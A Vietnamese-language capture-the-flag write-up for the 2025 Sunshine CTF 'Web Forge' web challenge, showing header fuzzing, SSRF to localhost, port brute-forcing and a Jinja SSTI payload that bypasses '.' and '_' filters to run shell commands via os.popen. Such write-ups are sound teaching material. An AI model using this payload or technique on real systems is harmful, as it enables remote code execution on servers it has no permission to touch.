 # 2025 Sunshine CTF - Web Forge

Mô tả của challenge:
```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
```


Truy cập vào `/admin`:
```
403 Forbidden: missing or incorrect SSRF access header
```

Tôi thử kiểm tra xem có tệp `/robots.txt` không. Kết quả trả về:
```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Nội dung này cho ta thấy cần một header được set là `true`

Truy cập trực tiếp vào `/admin`: **Forbidden — permission required**. Giờ chúng ta hãy **Fuzzing the SSRF access header**. 
Danh sách header lấy [tại đây](https://github.com/danielmiessler/SecLists/blob/f2d366a237436a904df19d19ca5545b9942bcabc/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers):

![alt text](image.png)

Dẹt sơ, ta đã tìm được header: `Allow: true`. Sau đó, chúng ta có thể truy cập `/fetch`. Nó có biểu mẫu cho ssrf:

![alt text](image-1.png)

Nhập thử url: `http://127.0.0.1/admin`

![alt text](image-2.png)

Trang web ngay lập tức phàn nàn rằng tôi đã quên tham số `?template=parameter`. Tiếp tục fetch url với tham số `tempalte`:

![alt text](image-3.png)

Vậy là trang web báo tôi đã sai port. Vì vậy tôi sẽ burteforce các port phổ biến: `http://127.0.0.1:<port>/admin?template=test` và thu được kết quả hợp lệ là port 8000.

![alt text](image-4.png)

Lúc này tôi nghĩ ngay đến lỗi Template Rendering SSTI và thử một payload đơn giản `{{7*7}}`. Kết quả trả ngay về 49 -> SSTI:

![alt text](image-5.png)

Hãy thử tải trọng tiêm Jinja thông thường từ [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), cho đến khi chúng ta thấy server filter `.` hoặc `_`. Tuy nhiên ta có thể thực thi payload sau để bypass `.`, `_`:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![alt text](image-6.png)

Tiếp theo ta ls để tìm xem flag nằm ở đâu và đọc nó:

![alt text](image-7.png)

Thành công đọc được flag.